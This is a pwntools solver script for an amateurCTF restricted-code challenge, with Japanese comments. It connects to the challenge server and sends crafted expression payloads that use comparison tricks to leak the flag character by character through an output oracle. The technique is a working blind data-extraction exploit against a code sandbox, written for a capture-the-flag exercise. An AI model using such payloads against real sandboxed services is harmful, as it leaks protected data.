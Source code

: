 ```py:solver.py
#!/usr/local/bin/python
from pwn import *

# "lite以外"
KEYS = list("_abcdfghjkmnopqrsuvwxyzABCDEFGHIJKLMNOPQRSTUVWZ")
BASE = "_a='a'>'b';a='b'>'a';b=a+a;c=b+b;d=c+c;x=d+b;y=b'a'[_a]+a+a+a;"

io = remote('amt.rs', 31672)
msg = io.recvuntil(b'Give code: ')

def calc(n: int) -> str:
  x100 = int(n / 100)
  x10 = int(n % 100 / 10)
  x = int(n % 100 % 10)
  return "+".join(["y"] * x100 + ["x"] * x10 + ["a"] * x)

def check(calced_i: str, l: str, r: str) -> bool:
  payload = f"{BASE}z=_[{calced_i}];z>'{l}'and'{r}'>z[_a]and~zz".encode()
  io.sendline(payload)
  message = io.recvuntil(b'Give code: ').decode()
  return "zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz" in message

flag = ""
# amateurCTF{は分かっているので13文字目から探索を開始する。
for i in range(12, 100):
  print(f'i={i}, flag={flag}')
  calced_i = calc(i)

  # e
  if check(calced_i, "d", "f"):
     flag += "e"
     continue

  # i
  if check(calced_i, "h", "j"):
     flag += "i"
     continue

  # l
  if check(calced_i, "k", "m"):
     flag += "l"
     continue

  # t
  if check(calced_i, "s", "u"):
     flag += "t"
     continue

  # 残り_abcdfghjkmnopqrsuvwxyzABCDEFGHIJKLMNOPQRSTUVWZ
  f = False
  for key in KEYS:
    payload = f"{BASE}_[{calced_i}]=='{key}'and~zz".encode()
    io.sendline(payload)
    message = io.recvuntil(b'Give code: ').decode()
    if "zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz" in message:
      flag += key
      f = True
      break
  if not f:
    break

prefix = "amateurCTF{"
suffix = "}"
```